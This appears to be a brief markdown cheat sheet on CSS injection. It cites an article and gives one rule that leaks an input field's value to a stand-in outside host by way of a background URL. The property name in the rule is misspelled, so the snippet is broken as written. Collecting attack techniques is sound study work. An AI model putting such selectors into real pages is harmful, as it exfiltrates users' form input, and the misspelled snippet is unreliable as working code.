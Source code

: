 # css

## refs

- <https://scotthelme.co.uk/can-you-get-pwned-with-css/>

## contents

- `input[value=a] { backgroud: url(https://example.com/?value=a)}`
